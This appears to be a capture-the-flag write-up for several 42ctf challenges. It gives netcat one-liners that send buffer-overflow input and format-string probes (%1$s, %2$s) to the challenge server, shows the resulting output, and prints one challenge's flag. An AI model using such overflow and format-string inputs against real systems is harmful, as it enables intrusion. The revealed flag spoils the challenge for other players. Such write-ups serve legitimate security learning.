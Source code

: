 ## The Answer
```sh
python3 -c "print('A' * 40 + '*')" | nc challenges.42ctf.org 3001
```

flag ``
of_course_it_was_42
``

## GOTcha
```sh
# 72 a's

$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc challenges.42ctf.org 3003

. . .
Gimme a trusted input plz:
sh: 1: ??1?I??^H??H???PTI???@: not found
. . .
```

## Stack leak
```r
$ nc challenges.42ctf.org 3006
What is the flag?
%3%s        
%s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%1$s
%1$s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%2$s    
(null) is not the flag! 
```